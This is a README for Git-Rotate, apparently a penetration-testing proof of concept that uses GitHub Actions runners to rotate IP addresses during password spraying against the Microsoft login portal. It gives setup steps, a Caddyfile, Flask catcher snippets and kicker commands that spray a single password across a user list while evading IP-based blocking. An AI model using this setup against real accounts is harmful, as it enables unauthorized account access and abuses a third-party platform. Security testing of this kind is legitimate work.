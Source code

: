 # Git-Rotate

Leveraging GitHub Actions for IP Rotation - for more information see the [following blog post](https://research.aurainfosec.io/pentest/git-rotate/).

The `Sprayer` and `Catcher` components are currently configured to target the Microsoft login portal and handle the response data. You'll need to modify these components to handle other targets and the response data received. Perhaps this could be made more modular in the future, but at the moments this is just a proof of concept.

GitHub takes abuse and spam of Actions seriously, and they have a dedicated team to track “spammy users.” I am not liable for any account closures due to breaches of their terms and conditions.

# Overview

The project is divided into three components; the `kicker`, the `sprayer`, and the `catcher`:

- **Kicker:** The kicker is a Python script responsible for creating and populating the workflow runs inside GitHub Actions. When generating the workflow run, it passes the relevant information, such as the target URL, username, password, and the IP address of the catcher. We can use GitHub [secrets](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions) to pass 'sensitive' information to the workflow without exposing it in logs.

- **Sprayer:** The sprayer is a Python script executed by a GitHub Actions workflow run. It is responsible for sending a login request to the target endpoint (e.g., `https://login.microsoft.com/common/oauth2/token`) with a username and a password combination, retrieves the response from the login attempt, and forwards it to the catcher component. An IP address is randomly assigned to the VM executing the workflow run, ensuring that each request is sent with a unique IP address to evade detection.

- **Catcher:** The catcher is a Python Flask web server that receives and processes login response data sent by the sprayer component. It determines the success or failure of the login attempts and logs the data appropriately. Note: [Caddy](https://caddyserver.com/) is used as a reverse proxy in this setup to manage incoming requests and forward them to the Flask web server. It's simple to setup and handles TLS certificates, provides a convenient solution - ensuring secure communication between components.

- The `Target` can be any login endpoint you are performing password spraying against or whenever you are brute-forcing something and wanting to avoid IP-based blocking.

# Getting Started

## Sprayer

Create a new GitHub repository and commit the Sprayer Python Script, Requirements.txt file, and GitHub Workflow YAML file:

```
sprayer
├── .github
│  └── workflows
│     └── sprayer.yml
├── requirements.txt
└── sprayer.py
```

The workflow is configured to run on the `workflow_dispatch` event, meaning it can be triggered using the REST API.

## Catcher

I'd recommend using a secure communication protocol such as HTTPS when sending the login response data from the Sprayer to the Catcher (this is not the default).

Ensure the `Catcher.py` Python script is on the host and install the requirements. 

### With TLS (Recommended):

Use something like [Caddy as a reverse proxy](https://caddyserver.com/docs/quick-starts/reverse-proxy). Here is a sample Caddyfile - change the `path`, `domain name`, and `port` for the Catcher as needed.

```
example.com {
    header {
        -Server
    }
    
    @notWowAmazing {
        not path /wow-amazing
    }

    handle @notWowAmazing {
        respond "Not Found" 404
    }

    handle {
        reverse_proxy localhost:5000
    }
}

```

You can change the interface to bind on to localhost only and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

### Without TLS (Not recommended):

Bind on all interfaces and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

## Kicker

The Kicker script requires a GitHub Fine-grained access token with the following Repository permissions:

```
actions: read & write
secrets: read & write
```

![access token permissions](images/access_token_permissions.png)


Modify the `config.ini` file with your GitHub account detials.

```
[GitHub]
owner = <your-username>
repo = <your-repo-name>
token = <fine-grained-access-token>
```


Install the requirements for the Kicker Python script and pass the required arguments. For example:

If your catcher is using HTTPS:

```
python3 kicker.py -u user-list.txt -p "Password123" -c https://example.com/wow-amazing -s
```

If your catcher is using HTTP:

```
python3 kicker.py -u user-list.txt -p "Password123" -c http://example.com/wow-amazing
```


# Demo

[![demo](https://img.youtube.com/vi/sxo5E6n-T9o/0.jpg)](https://www.youtube.com/watch?v=sxo5E6n-T9o)


# Acknowledgements

Thanks to my employer <a href='https://www.aurainfosec.com/'>Aura Information Security</a> for providing time for me to work on this project. 

![aura-logo](https://user-images.githubusercontent.com/27876907/188373880-8157648c-eb94-4054-81c8-7c61692b0367.png)
